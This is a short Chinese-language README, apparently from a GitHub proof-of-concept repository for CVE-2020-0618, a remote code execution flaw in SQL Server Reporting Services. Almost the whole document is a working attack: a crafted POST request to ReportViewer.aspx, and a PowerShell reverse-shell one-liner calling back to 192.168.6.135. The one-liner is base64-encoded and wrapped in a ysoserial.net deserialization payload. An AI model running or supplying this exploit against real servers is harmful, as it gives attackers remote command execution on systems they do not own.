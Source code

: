 # CVE-2020-0618
SQL Server Reporting Services(CVE-2020-0618)中的RCE
#
# 漏洞验证(POC)
可以将以下HTTP请求发送到服务器以利用该应用程序:
```
POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: X

NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE=
```
可以在PowerShell中使用以下命令来使用ysoserial.net工具生成有效负载:
ysoserial.net工具:https://github.com/pwntester/ysoserial.net
```
$command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes)

.\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "powershell.exe -encodedCommand $encodedCommand" -o base64 | clip
```

[@euphrat1ca](https://github.com/euphrat1ca/CVE-2020-0618/blob/master/README.md)